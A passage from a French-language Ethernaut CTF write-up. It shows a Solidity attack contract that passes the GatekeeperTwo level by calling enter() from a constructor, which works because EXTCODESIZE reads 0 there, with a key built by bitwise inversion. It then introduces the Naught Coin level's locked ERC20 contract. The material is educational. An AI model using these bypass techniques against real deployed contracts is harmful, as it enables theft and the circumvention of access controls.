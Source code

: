> Google: solidity extcodesize
>
> **Edit: `EXTCODESIZE` returns 0 if it is called from  the constructor of a contract. So if you are using this in a security  sensitive setting, you would have to consider if this is a problem.**

Pour passer `gateThree()`, il faut simplement respecter la condition, appliqué sur `gateKey`. Nous devons appliquer une inversion binaire (bit-wise operation `~`).

### Attaque

```javascript
contract Attack {
    GatekeeperTwo object;
    bytes8 key = bytes8(~uint64(bytes8(keccak256(abi.encodePacked(this)))));
    
    constructor(uint256 addr) public {
        object = GatekeeperTwo(addr);
        (bool ret, bytes memory data) = address(object).call(abi.encodeWithSignature('enter(bytes8)', key));
    }
}
```

> Way to go! Now that you can get past the gatekeeper, you have what it takes to join [theCyber](https://etherscan.io/address/thecyber.eth#code), a decentralized club on the Ethereum mainnet. Get a passphrase by contacting the creator on [reddit](https://www.reddit.com/user/0age) or via [email](mailto:0age@protonmail.com) and use it to register with the contract at [gatekeepertwo.thecyber.eth](https://etherscan.io/address/gatekeepertwo.thecyber.eth#code) (be aware that only the first 128 entrants will be accepted by the contract).



---

## 15 - Naught Coin

---

> **TL;DR**
>
> Réaliser un transfert vers un autre compte en appelant une fonction présente dans le contrat du quel on hérite.

NaughtCoin is an ERC20 token and you're already holding all of them.  The catch is that you'll only be able to transfer them after a 10 year  lockout period. Can you figure out how to get them out to another  address so that you can transfer them freely? Complete this level by  getting your token balance to 0.

 Things that might help

- The [ERC20](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md) Spec
- The [OpenZeppelin](https://github.com/OpenZeppelin/zeppelin-solidity/tree/master/contracts) codebase

```javascript
pragma solidity ^0.5.0;

import 'openzeppelin-solidity/contracts/token/ERC20/ERC20Detailed.sol';
import 'openzeppelin-solidity/contracts/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20, ERC20Detailed {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = now + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;
```